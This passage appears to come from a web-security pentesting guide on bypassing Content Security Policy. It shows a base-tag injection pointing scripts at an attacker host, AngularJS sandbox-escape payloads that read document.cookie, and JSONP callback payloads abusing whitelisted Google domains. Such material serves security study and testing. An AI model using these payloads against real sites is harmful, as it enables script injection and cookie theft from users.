 Moreover, if the **page is loading a script using a relative path** (like `<script src="/js/app.js">`) using a **Nonce**, you can abuse the **base** **tag** to make it **load** the script from **your own server achieving a XSS.**\
If the vulnerable page is loaded with **httpS**, make use an httpS url in the base.

```html
<base href="https://www.attacker.com/" />
```

### AngularJS events

A specific policy known as Content Security Policy (CSP) may restrict JavaScript events. Nonetheless, AngularJS introduces custom events as an alternative. Within an event, AngularJS provides a unique object `$event`, referencing the native browser event object. This `$event` object can be exploited to circumvent the CSP. Notably, in Chrome, the `$event/event` object possesses a `path` attribute, holding an object array implicated in the event's execution chain, with the `window` object invariably positioned at the end. This structure is pivotal for sandbox escape tactics.

By directing this array to the `orderBy` filter, it's possible to iterate over it, harnessing the terminal element (the `window` object) to trigger a global function like `alert()`. The demonstrated code snippet below elucidates this process:

```xml
<input%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27>#x
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```

This snippet highlights the usage of the `ng-focus` directive to trigger the event, employing `$event.path|orderBy` to manipulate the `path` array, and leveraging the `window` object to execute the `alert()` function, thereby revealing `document.cookie`.

**Find other Angular bypasses in** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### AngularJS and whitelisted domain

```
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```

A CSP policy that whitelists domains for script loading in an Angular JS application can be bypassed through the invocation of callback functions and certain vulnerable classes. Further information on this technique can be found in a detailed guide available on this [git repository](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22).

Working payloads:

```html
<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

<!-- no longer working -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```
